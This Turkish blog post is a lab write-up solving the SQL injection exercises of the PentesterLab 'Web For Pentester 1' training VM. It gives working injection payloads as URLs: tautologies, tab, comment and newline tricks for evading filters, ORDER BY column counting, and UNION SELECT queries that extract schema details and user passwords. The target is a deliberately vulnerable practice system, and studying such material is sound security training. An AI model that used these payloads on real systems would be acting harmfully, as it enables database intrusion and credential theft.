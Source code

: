 ```yaml
---
layout: post
title: WEB For Pentester 1 - SQL Injections Bölümü Çözümleri
---
```




&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Web For Pentester</strong> yaygın Web zafiyetlerini bize sunan ve bu zafiyetlerden yararlanmaya çalışarak çözümlere ulaştığımız
bir test sistemidir. Bu adresten bilgisayarınıza indirebilirsiniz.<a href = "https://www.pentesterlab.com/exercises/web_for_pentester">Bu</a> adresten bilgisayarınıza indirebilirsiniz.
ISO kalıbı bilgisayarınıza indikten sonra Vmware,Virtual Machine gibi sanal makina sistemlerinden birine kurmanız gerekir. Kurulumdan sonra sanal makinenizdeki sistem de

>><strong>>>ifconfig</strong>

yazarak gördüğünüz IP adresini Ana makinenizdeki tarayıcınıza yazarak <strong>WFP</strong> sorularına ulaşabilirsiniz.
Bu yazıda <strong>SQL Injections</strong> Bölümünün çözümlerini anlatmaya çalışacağız.Syntax yapısını sağlamak için gereken  URL encode karakterlerine de
<a href = "https://www.w3schools.com/tags/ref_urlencode.asp">şurayı</a>	ziyaret ederek ulaşabilirsiniz.


<strong>Example 1</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Soruda tırnak (') koyup deneme yaptığımızda ekranın bir hatadan dolayı değiştiğini görüyoruz. Buradan araya kod sıkıştırabileceğimizi anlıyoruz.  Örnek olarak arka tarafta çalışan sorgu:

	1. select id,name,age from users where name='root'

Buraya şu ifadeyi eklediğimizde

	1. select id,name,age from users where name='root' or 1 or''
	2. select id,name,age from users where 1 

İkinci  duruma geldiğini düşünebiliriz. Bununla bütün değerleri çağırmış oluyoruz ve listeliyoruz.
'or 1 or' ifadesini aşağıdaki gibi URL'ye eklediğimizde tüm tabloyu listeliyoruz. 

	1. http://192.168.96.129/sqli/example1.php?name=root'or 1 or'

Burada çıkan kullanıcıları ve bilgileri görüyoruz. Örneğin user1 ile devam edelim. Buraya yazdığımız kelime sonucu etkilemez. Önümüzdeki tabloda kaç tane sütun olduğunu aşağıdaki komutla deneyerek buluyoruz.

	1. http://192.168.96.129/sqli/example1.php?name=user1' order by 1 %23
	2. http://192.168.96.129/sqli/example1.php?name=user1' order by 2 %23
	3. http://192.168.96.129/sqli/example1.php?name=user1' order by 3 %23
	4. http://192.168.96.129/sqli/example1.php?name=user1' order by 4 %23
	5. http://192.168.96.129/sqli/example1.php?name=user1' order by 5 %23
	6. http://192.168.96.129/sqli/example1.php?name=user1' order by 6 %23

Ve en son 6 da hata oluyor yani önümüze hiç bir şey çıkmıyor. Buradan 5 tane sütunumuz olduğunu anlıyoruz.<strong>'%23'</strong> ifadesi de (#) anlamına geliyor yani sonrasında gelen ifadeleri yok sayıyor. Bu sayede syntax hatalarından kurtuluyoruz.
Bu aşamadan sonra bilgi toplamaya başlıyoruz.İlk sütuna ve ikinci sütuna tablo ve versiyon bilgilerini bastırmak için bunu uyguluyoruz.

	1. http://192.168.96.129/sqli/example1.php?name=user1' union select table_name,version(),3,4,5 
	from information_schema.tables %23


Bütün Sütun isimleri için:

	1. http://192.168.96.129/sqli/example1.php?name=user1' union select column_name,2,3,4,5 
	from information_schema.columns %23

Tablo isimlerini normal yazarak hata alırsak onların hexadecimal karşılıklarını deneyerek sonuca ulaşabiliriz.

	1. http://192.168.96.129/sqli/example1.php?name=root' union select column_name,2,3,4,5 
	from information_schema.columns where table_name = 0x7573657273 %23

Sırayla aşağıdaki işlemleri uygulayarak tablodaki kullanıcı şifrelerini bulmaya çalışalım.

	1. http://192.168.96.129/sqli/example1.php?name=root' union select 
	database(),2,3,4,5 %23 --> Kullanılan veri tabanının ismini çektiğimiz komut.

	2. http://192.168.96.129/sqli/example1.php?name=root' union select table_name,2,3,4,5 
	from information_schema.tables where 
	table_schema = database() %23 --> Kullanılan tablonun adını çektiğimiz komut.

	3. http://192.168.96.129/sqli/example1.php?name=root' UNION SELECT 1,column_name,3,4,5 
	FROM information_schema.columns WHERE table_name="users" %23 --> tablodaki sütunların 
	isimlerini çektiğimiz komut.

	4. http://192.168.96.129/sqli/example1.php?name=root' union select name,passwd,3,4,5 
	from exercises.users %23 --> kullanıcı isimlerini ve şifrelerini çektiğimiz komut.


Çeşitli komut varyasyonları ile farklı bilgiler edinebiliriz. 



<strong>Example 2</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1. Soruda denediğimiz ifadenin aynısını deniyoruz ve <strong>'ERROR NO SPACE'</strong> yazısını görüyoruz. Buradan aralara
koyduğumuz boşluk karakterinin sorun oluşturduğunu anlıyoruz.  Syntax yapısını sağlamak için boşluk yerine tab koyabiliriz. Tabiki Tab tuşuna basarak yapabildiğimiz bir olay değil. TAB karakteri <strong>'%09'</strong> ile ifade edilir.
	
	1. http://192.168.96.129/sqli/example2.php?name=root'or%091%09or'	


<strong>Example 3</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'or 1 or' denediğimizde  <strong> 'ERROR NO SPACE' </strong>. Sonrasında bir önceki sorudaki gibi  'or%091%09or' deniyoruz fakat yine aynı sonuç : <strong>'ERROR NO SPACE'</strong> . Boşluğa ve Tab'a izin vermiyor. Syntax yapısını sağlaması için boşluk benzeri birşey koyacağız ama ne boşluk olacak ne de tab. Biraz araştırma sonucu yorum satırı haline getirerek oralardaki karakter koyma ihtiyacından kurtuluyoruz.

	1. http://192.168.96.129/sqli/example3.php?name=root'or/**/1/**/or


<strong>Example 4</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;URL'nin devamına 'or 1 or' denediğimizde bir sonuç alamıyoruz. Birkaç denemeden sonra tırnak karakteri kullanmamamız gerektiğini anlıyoruz ve yalnızca <strong>or 1</strong> yazarak sonuçlari listeliyoruz.

	1. http://192.168.96.129/sqli/example4.php?id=2 or 1


<strong>Example 5</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4. soruda olduğu gibi aynı işlemi uygulayınca sonucu listeliyoruz.

	1. http://192.168.96.129/sqli/example5.php?id=2 or 1


<strong>Example 6</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tırnak koyup bir kontrol ediyoruz ve <strong>'ERROR INTEGER REQUIRED'</strong> yazısını görüyoruz. İfademizi bir Integer ile bitirmek için  or 1  yazıyoruz .

	1. http://192.168.96.129/sqli/example6.php?id=2 or 1


<strong>Example 7</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tırnak karakteri koyduğumuzda <strong>'ERROR INTEGER REQUIRED'</strong> yazısını görüyoruz. Bir önceki soruda olduğu gibi or 1 yazıp deniyoruz ama aynı hata devam ediyor. Burada integer isteyen yerin bizim ifademizden önce gelen yer olduğunu deneyerek buluyoruz.<strong>'%0A'</strong> karakteri alt satıra geçme anlamına geliyor. Bunu kullanarak aşağıdaki ifade sonuçları listeliyor.

	1. http://192.168.96.129/sqli/example7.php?id=2%0A or 1

<strong>Example 8</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Burada <strong>order</strong> kelimesini görünce order yapısıyla ilgili sorgular göndermeye çalışıyoruz. Düz tırnak gönderdiğimizde bir sonuç alamıyoruz ve denemeler sonucu yatay tırnak(`) kullanıyoruz.

	1. `asc %23
	2. `desc %23
	3. ` %23

ifadeleri işimizi görüyor.

	1. http://192.168.96.129/sqli/example8.php?order=name`asc %23

<strong>Example 9</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Düz tırnak ve yatay tırnak karakterleri hata veriyor ve bunları kullanmadan deneyerek sonuçları listeliyoruz.
 
	1. asc %23
	2. desc %23
	3. %23

İfadelerinden herhangi biriyle sorgumuzu çalıştırıyoruz.

	1. http://192.168.96.129/sqli/example9.php?order=name desc %23

<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Böylelikle <strong>WEB For Pentester 1 SQL Injections</strong> bölümünün çözümünü tamamlamış olduk. Tüm sorular için aynı detaya inme gereği duymadık ilk sorudaki sorgulardan yola çıkarak aynı sonuçları elde edebilirsiniz.








